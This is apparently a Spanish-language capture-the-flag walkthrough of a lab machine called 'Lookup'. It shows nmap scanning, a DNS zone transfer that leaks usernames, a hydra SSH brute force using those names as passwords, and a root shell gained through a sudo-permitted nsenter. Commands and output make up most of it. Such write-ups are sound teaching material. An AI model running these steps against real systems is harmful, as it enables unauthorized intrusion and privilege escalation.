

## Table of contents

## Enumeración

La máquina Lookup tiene la ip **10.0.2.57**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.57

Nmap scan report for 10.0.2.57
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:ea:48:1a:a3:46:0b:bd:ac:47:73:e8:78:25:af:42 (RSA)
|   256 2e:41:ca:86:1c:73:ca:de:ed:b8:74:af:d2:06:5c:68 (ECDSA)
|_  256 33:6e:a2:58:1c:5e:37:e1:98:8c:44:b1:1c:36:6d:75 (ED25519)
53/tcp open  domain  Eero device dnsd
| dns-nsid: 
|_  bind.version: not currently available
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Under Construction
|_http-server-header: Apache/2.4.38 (Debian) 
```

### Puerto 53 (DNS)

El **DNS** (**Domain Name System**) está expuesto, por lo que vamos a emplearlo para que nos filtre información sobre el dominio de la máquina.

Para ello, aplicamos un **Reverse DNS Lookup** y así averiguar que nombre de dominio está asociado a la ip de la máquina.

```bash
dig -x 10.0.2.57 @10.0.2.57

; <<>> DiG 9.20.23-1-Debian <<>> -x 10.0.2.57 @10.0.2.57
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 11679
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 42d90df871061728d397961c6a5cdb5f118dd6df84abe05a (good)
;; QUESTION SECTION:
;57.2.0.10.in-addr.arpa.                IN      PTR

;; ANSWER SECTION:
57.2.0.10.in-addr.arpa. 86400   IN      PTR     ns1.silvertech.nyx.

;; AUTHORITY SECTION:
2.0.10.in-addr.arpa.    86400   IN      NS      ns1.silvertech.nyx.

;; ADDITIONAL SECTION:
ns1.silvertech.nyx.     86400   IN      A       10.0.2.57
```

Averiguamos que el dominio es **silvertech.nyx** y lo añadimos al **/etc/hosts**

```bash
echo '10.0.2.57 silvertech.nyx' | sudo tee -a /etc/hosts
```

## Explotación

Teniendo el dominio realizamos un **Ataque de Transferencia de Zona** o **Asynchronous Full Transfer Zone** (**AXFR**) que consiste en solicitar al servidor **DNS** la base de datos del dominio y en el caso de una mala configuración de este, nos la mostrará.

```bash
dig axfr silvertech.nyx @10.0.2.57

; <<>> DiG 9.20.23-1-Debian <<>> axfr silvertech.nyx @10.0.2.57
;; global options: +cmd
silvertech.nyx.         86400   IN      SOA     ns1.silvertech.nyx. admin.silvertech.nyx. 1 3600 1800 604800 86400
silvertech.nyx.         86400   IN      NS      ns1.silvertech.nyx.
ceo.silvertech.nyx.     86400   IN      TXT     "a.miller@silvertech.nyx"
finance.silvertech.nyx. 86400   IN      TXT     "b.clark@silvertech.nyx"
hr.silvertech.nyx.      86400   IN      TXT     "m.bailey@silvertech.nyx"
it.silvertech.nyx.      86400   IN      TXT     "p.logan@silvertech.nyx"
it.silvertech.nyx.      86400   IN      TXT     "j.carter@silvertech.nyx"
it.silvertech.nyx.      86400   IN      TXT     "r.turner@silvertech.nyx"
it.silvertech.nyx.      86400   IN      TXT     "s.hughes@silvertech.nyx"
ns1.silvertech.nyx.     86400   IN      A       10.0.2.57
support.silvertech.nyx. 86400   IN      TXT     "p.hollen@silvertech.nyx"
www.silvertech.nyx.     86400   IN      A       10.0.2.57
silvertech.nyx.         86400   IN      SOA     ns1.silvertech.nyx. admin.silvertech.nyx. 1 3600 1800 604800 86400
;; Query time: 4 msec
;; SERVER: 10.0.2.57#53(10.0.2.57) (TCP)
```

Obtenemos una serie de subdomnios y también, un listado de usuarios.

```text
a.miller
b.clark
m.bailey
p.logan
j.carter
r.turner
s.hughes
p.hollen
``` 

Realizamos un ataque de Fuerza Bruta sobre el servicio **SSH** con ese listado de usuarios empleando como contraseñas el mismo listado.

```bash
hydra -L users.txt -P users.txt ssh://10.0.2.57 -u

[22][ssh] host: 10.0.2.57   login: m.bailey   password: b.clark
```

## Acceso SSH
### m.bailey

Conseguimos las credenciales del usuario **m.bailey** y las empleamos para acceder al servidor.

```bash
ssh m.bailey@silvertech.nyx

m.bailey@lookup:~$ ls -la
total 28
drwx------ 3 m.bailey m.bailey 4096 jul 18 18:25 .
drwxr-xr-x 3 root     root     4096 jul 18 18:21 ..
lrwxrwxrwx 1 root     root        9 may  5  2023 .bash_history -> /dev/null
-rw------- 1 m.bailey m.bailey  220 ene  9  2021 .bash_logout
-rw------- 1 m.bailey m.bailey 3526 ene  9  2021 .bashrc
drwx------ 3 m.bailey m.bailey 4096 may  5  2023 .local
-rw------- 1 m.bailey m.bailey  807 ene  9  2021 .profile
-rw-r--r-- 1 m.bailey m.bailey    0 may  6  2023 .selected_editor
-r-------- 1 m.bailey m.bailey   33 jul 18 18:25 user.txt
```

## Escalada de Privilegios
### Root

Revisando los permisos sudoers vemos que nuestro usuario puede ejecutar **nsenter** como el usuario **root** y sin proporcionar contraseña, nos aprovechamos de ello para lanzarnos una **bash** como **root**.

```bash
sudo /usr/bin/nsenter /bin/bash

root@lookup:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@lookup:~# ls -la /root
total 28
drwx------  3 root root 4096 jul 18 18:37 .
drwxr-xr-x 18 root root 4096 may  6  2023 ..
lrwxrwxrwx  1 root root    9 may  5  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 ene 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 may  5  2023 .local
-rw-------  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   33 jul 18 18:37 root.txt
-rw-r--r--  1 root root   66 jul 17 19:30 .selected_editor
```